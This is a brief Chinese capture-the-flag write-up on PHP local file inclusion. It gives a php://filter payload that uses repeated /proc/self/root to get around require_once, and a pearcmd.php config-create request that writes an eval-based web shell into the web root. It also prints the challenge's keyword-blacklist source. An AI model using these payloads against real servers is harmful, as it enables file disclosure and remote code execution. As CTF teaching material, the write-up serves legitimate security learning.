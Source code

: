 相关文章：[文件包含漏洞三道题\_php require once 绕过-CSDN博客](https://blog.csdn.net/qz362228/article/details/124524296)

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/starven_secret.php
```

![](./images/image-29.png)

```
 <?php
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET ["syc"])){
    $file = $_GET ["syc"];
    $hint = "register_argc_argv = On";
    if (preg_match("/config|create|filter|download|phar|log|sess|-c|-d|%|data/i", $file)) {
        die("hint都给的这么明显了还不会做?");
    }
    if(substr($_SERVER['REQUEST_URI'], -4) === '.php'){
        include $file;
    }
}
```

register\_argc\_argv 打开，可以使用pearcmd进行写入木马

相关文章：[利用 pearcmd 从 LFI 到 getshell (furina.org.cn)](https://furina.org.cn/2023/09/05/pearcmd/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%8B%93%E5%B1%95)

```
/levelllll2.php?syc=/usr/local/lib/php/pearcmd.php&+config-create+/<?=@eval($_POST['shell']);?>+/var/www/html/shell.php
```

一定要抓包把被转义的字符改回来
